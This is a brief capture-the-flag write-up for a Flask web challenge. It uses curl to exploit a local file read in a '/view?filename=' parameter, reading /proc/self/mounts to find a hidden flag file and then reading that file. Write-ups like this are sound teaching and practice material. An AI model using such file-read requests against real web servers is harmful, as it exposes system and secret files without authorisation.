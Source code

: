 <img width="557" height="375" alt="image" src="https://github.com/user-attachments/assets/07b15c95-7b0c-4d40-81c4-38417a2a748b" />  

You cant win again Miku ...
But  **Local File Read (LFI)** ~ `/view?filename=...` can ...  

```cmd
curl "https://my-flask-app-wq0nvuwb5fpr.chals.sekai.team:1337/view?filename=/proc/self/mounts"
```
And we receive :  
```vim
/dev/nvme0n1p1 /flag-jae5P5vDErPEAB6R1gKuWpLCPthDO9CR.txt ext4 ro,relatime,commit=30 0 0
```
Do one more `curl`  
```cmd
curl "https://my-flask-app-wq0nvuwb5fpr.chals.sekai.team:1337/view?filename=/flag-jae5P5vDErPEAB6R1gKuWpLCPthDO9CR.txt"
```
Peace!





